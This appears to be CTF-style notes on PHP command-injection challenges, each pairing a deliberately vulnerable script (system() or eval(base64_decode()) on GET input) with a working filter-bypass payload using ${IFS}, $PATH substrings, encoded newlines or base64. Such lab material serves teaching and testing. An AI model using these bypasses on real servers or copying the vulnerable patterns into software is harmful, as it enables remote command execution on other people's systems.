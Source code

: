 unjoke-1

```java
<?php
$cmd = $_GET['cmd'] ?? '';
if (strpos($cmd, ' ') !== false) {
    die("Space not allowed!");
}
system($cmd);
?>

//cmd=ls${IFS}/

```

unjoke-2

```php
<?php
$cmd = $_GET['cmd'] ?? '';
if (preg_match('/\/| |/', $cmd)) {
  die("Letters not allowed!");
}
system($cmd);

//cmd=ls${IFS}$(echo${IFS}${PATH:0:1}${PATH:1:1})
```

unjoke-3

```php
<?php
$cmd = $_GET['cmd'] ?? '';
if (strpos($cmd, ';') !== false || strpos($cmd, ' ') !== false) {
    die("Bad character!");
}
system($cmd);


//cmd=ls%0a-l 或者 cmd=ls%09-la
```

unjoke-4

```php
<?php
$a = $_GET['a'] ?? '';
eval(base64_decode($a));

// a=c3lzdGVtKCdscyAtYWwnKTs=
```

```php
echo -n "system('ls -al');" | base64
```

<h4 id="BYs2I">bypass-4 无回显RCE</h4>
